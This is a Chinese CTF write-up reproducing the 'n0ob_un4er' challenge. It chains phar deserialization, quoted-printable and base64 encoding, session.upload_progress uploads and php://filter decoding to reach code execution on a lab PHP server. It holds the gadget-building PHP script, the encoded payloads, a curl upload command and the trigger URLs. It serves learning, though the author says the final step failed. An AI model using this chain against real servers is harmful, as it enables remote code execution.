

# n0ob_un4er 题（复）解（现）
## 0x01 考点
- phar反序列化
- phar文件编码上传
- PHP中session.upload_progress的利用

## 0x02 分析与解答
当时打的时候没来得及看，所以根据wp复现一下。

环境搭建就不多赘述了，直接用dockerfile拉取一下镜像，运行起来就ok了，不过有一个地方需要注意的是，需要修改`php.ini`配置参数`session.upload_progress.cleanup`的值为`off`，否则后续上传的文件内容均被置为空。\


题目源码如下：
```php
<?php
$SECRET  = `/readsecret`;
include "waf.php";
class User {
    public $role;
    function __construct($role) {
        $this->role = $role;
    }
}
class Admin{
    public $code;
    function __construct($code) {
        $this->code = $code;
    }
    function __destruct() {
        echo "Admin can play everything!";

        // 代码执行
        eval($this->code);
    }
}
function game($filename) {
    if (!empty($filename)) {
        if (waf($filename) && @copy($filename , "/tmp/tmp.tmp")) {      //有个waf，但拿不到源码
            echo "Well done!";
        } else {
            echo "Copy failed.";
        }
    } else {
        echo "User can play copy game.";
    }
}


function set_session(){
    global $SECRET;
    $data = serialize(new User("user"));                        //序列化
    $hmac = hash_hmac("sha256", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac) || !hash_equals(hash_hmac("sha256", $data, $SECRET), $hmac)) {
        die("hacker!");
    }
    $data = unserialize($data);
    if ( $data->role === "user" ){
        game($_GET["filename"]);
    }else if($data->role === "admin"){
        return new Admin($_GET['code']);
    }
    return 0;
}


if (!isset($_COOKIE["session-data"])) {
    set_session();
    highlight_file(__FILE__);
}else{
    highlight_file(__FILE__);
    check_session();
}
```

审计一下：
- `User`类只是简单实例化一个对象，没啥用；
- `Admin`类可以RCE；
- `game`函数接收一个`filename`参数，并进行waf过滤，然后copy到`/tmp/tmp.tmp`目录下，试过了，`waf.php`的代码是拿不到的；
- `set_session`和`check_session`函数主要用于设置cookie和检查cookie。先序列化一个`User`对象，角色为`user`，然后再利用flag作为密钥求它的sha256，最终序列化结果和sha256为一个cookie，而`check_session`会检查hash值是否正确，然后根据不同的角色执行不同的处理。因此想通过修改`user`为`admin`从而执行代码是不可能的了。

而`copy()`方法是可以使用phar伪协议的，因此多半是个<font color='red'>**phar反序列化的利用，但是需要有文件上传点，这道题目显然没有，这里的处理方式是将phar文件编码为字符串写入到文件中**</font>。

所以现在的<font color='red'>**主要问题变为写到哪个可控文件**</font>？可控无非就是临时文件、日志文件、session文件。临时文件无法知道文件名，由于设置了open_basedir，日志文件无法copy，<mark>所以只有session文件了，而且php版本为7.2，这个版本就算不开启session，只要上传了文件，并且在cookie设置了PHPSESSID，也会生成临时且名字可控的session文件</mark>。

所以思路就是<font color='red'>**随便上传一个文件，并在session临时文件中写入编码后的phar文件内容，然后用filter伪协议将phar文件还原写到/tmp/tmp.tmp中，最后用phar伪协议解析**</font>。

生成phar文件：
```php
<?php
highlight_file(__FILE__);
class Admin{
    public $code;
}
@unlink('test.phar');
$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$o=new Admin();
$o ->code="system('/readflag');";
$phar->setMetadata($o);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>
```

然后使用如下命令对phar文件进行编码：
```bash
cat test.phar | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

结果为：
```
=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=74=00=41=00=41=00=41=00=41=00=41=00=51=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=33=00=41=00=41=00=41=00=41=00=54=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=42=00=5A=00=47=00=31=00=70=00=62=00=69=00=49=00=36=00=4D=00=54=00=70=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=52=00=6C=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=49=00=77=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=6F=00=4A=00=79=00=39=00=79=00=5A=00=57=00=46=00=6B=00=5A=00=6D=00=78=00=68=00=5A=00=79=00=63=00=70=00=4F=00=79=00=49=00=37=00=66=00=51=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=44=00=64=00=58=00=42=00=74=00=6E=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=32=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=4A=00=52=00=4F=00=30=00=76=00=59=00=75=00=4B=00=35=00=35=00=4A=00=33=00=5A=00=72=00=2B=00=48=00=70=00=34=00=37=00=46=00=4B=00=68=00=6F=00=54=00=66=00=47=00=77=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00
```

<font color='red'>**但是利用什么机制上传呢？这里用的是[session.upload_progress机制](https://chenlvtang.top/2021/04/13/PHP%E4%B8%ADsession-upload-progress%E7%9A%84%E5%88%A9%E7%94%A8/)**</font>，这里就不详细展开了，参考文献中讲的很清晰。

然而，这个时候还是不能直接上传，因为生成的session文件为如下形式，前后都为脏数据，需要把前后的内容都去掉：\


去掉脏数据的方法是先进行3次base64编码，那么我们编码后的phar文件就还需要连续进行3次base64解码，由于base64解码的特性，如果被解码的字符串中出现了"="就会解码失败，所以我们还要对payload填充一下位数，使之连续3次base64编码都不会出现"=",就需要满足位数为3^3的倍数。经fuzz发现，只需在`upload_progress_`后面添加上两个`Z`就ok了，即上传的payload为：
```php
ZZVUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMUJVWXpWUVZFRjNVRlJSTlZCVVFYZFFWRTB6VUZSQmQxQlVXVEpRVkVGM1VGUlZlRkJVUVhkUVZGa3pVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhsUVZFRjNVRlJOZDFCVVFYZFFWRlpDVUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVVrUlFWRUYzVUZSYVJsQlVRWGRRVkZWNVVGUkJkMUJVVFRCUVZFRjNVRlJaTUZCVVFYZFFWRkY0VUZSQmQxQlVWWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk1GQlVRWGRRVkZrd1VGUkJkMUJVVlRSUVZFRjNVRlJSZVZCVVFYZFFWR013VUZSQmQxQlVXa1pRVkVGM1VGUlJlVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJqTkZCVVFYZFFWRXBEVUZSQmQxQlVXVEpRVkVGM1VGUk5OVkJVUVhkUVZGazFVRlJCZDFCVVRYbFFWRUYzVUZSUmVGQlVRWGRRVkZWNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk5GQlVRWGRRVkZWNVVGUkJkMUJVV2tSUVZFRjNVRlJaZWxCVVFYZFFWRTE2VUZSQmQxQlVWWGxRVkVGM1VGUlNRbEJVUVhkUVZGVjVVRlJCZDFCVVVrZFFWRUYzVUZSTmQxQlVRWGRRVkdNeVVGUkJkMUJVVlRWUVZFRjNVRlJqTVZCVVFYZFFWRkpEVUZSQmQxQlVUVEZRVkVGM1VGUk5NVkJVUVhkUVZGSkNVRlJCZDFCVVRYcFFWRUYzVUZSV1FsQlVRWGRRVkdONVVGUkJkMUJVU2tOUVZFRjNVRlJSTkZCVVFYZFFWR04zVUZSQmQxQlVUVEJRVkVGM1VGUk5NMUJVUVhkUVZGRXlVRlJCZDFCVVVrTlFWRUYzVUZSWk5GQlVRWGRRVkZwSFVGUkJkMUJVVlRCUVZFRjNVRlJaTWxCVVFYZFFWRkV6VUZSQmQxQlVZek5RVkVGM1VGUlJOVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVRSUVZFRjNVRlJWZUZCVVFYZFFWRnBEVUZSQmQxQlVUWGhRVkVGM1VGUlJlbEJVUVhkRFp6MDk=
```

然后使用如下命令上传：
```curl 
curl http://192.168.59.129:8888 -H 'Cookie: PHPSESSID=pearain' -F 'PHP_SESSION_UPLOAD_PROGRESS=ZZVUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMU' -F 'file=@/etc/passwd'
```

可以看到靶机生成如下文件：\


然后清楚垃圾数据，并将改session文件内容写入`/tmp/tmp.tmp`目录下，payload为：
```
?filename=php://filter/read=convert.base64-
decode|convert.base64-decode|convert.base64-decode|convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-
decode/resource=/tmp/sess_pearain
```

可以看到`/tmp/tmp.tmp`文件内容如下：\


接下来就是触发phar的反序列化了：
```
?filename=phar:///tmp/tmp.tmp/test.txt
```

理论上来说直接拿到如下flag，但是不知道为啥，复现的时候一直出不来结果：\


<font color='red'>**不管了，最后通过这道题还是学到了很多的，嘻嘻~**</font>


## 0x03 参考
[\[1\] Litsasuk大佬的国城杯n0ob_un4er-wp](https://www.cnblogs.com/Litsasuk/articles/18593334)\
[\[2\] PHP中session.upload_progress的利用](https://chenlvtang.top/2021/04/13/PHP%E4%B8%ADsession-upload-progress%E7%9A%84%E5%88%A9%E7%94%A8/)\
[\[3\] Laravel 8 Debug Mode RCE 拓展与踩坑 · Diggid's Blog](https://blog.diggid.fun/2021/05/30/Laravel-8-Debug-Mode-RCE-%E6%8B%93%E5%B1%95%E4%B8%8E%E8%B8%A9%E5%9D%91/#payload%E6%80%BB%E7%BB%93)